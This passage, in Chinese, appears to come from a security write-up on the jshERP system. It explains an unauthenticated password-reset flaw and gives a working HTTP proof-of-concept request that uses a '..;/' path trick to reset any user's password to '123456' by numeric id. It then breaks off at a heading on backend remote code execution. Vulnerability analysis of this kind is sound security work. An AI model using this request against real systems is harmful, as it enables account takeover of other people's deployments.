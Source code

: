 可以看到传入一个`id`，然后没有任何校验就可以重置密码为`123456`，这个`id`在数据库中可以看到其实就是一个数字，那么可以通过爆破的方式，把所有密码全重置了。

![image-20240831092711420](assets/image-20240831092711420.png)

那么也不难构造poc如下：

```poc
POST /jshERP-boot/user/login/..;/..;/user/resetPwd HTTP/1.1
Host: 127.0.0.1:9999
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 5

{"id":63}
```

![image-20240831092918510](assets/image-20240831092918510.png)

## 后台RCE漏洞

### 漏洞分析

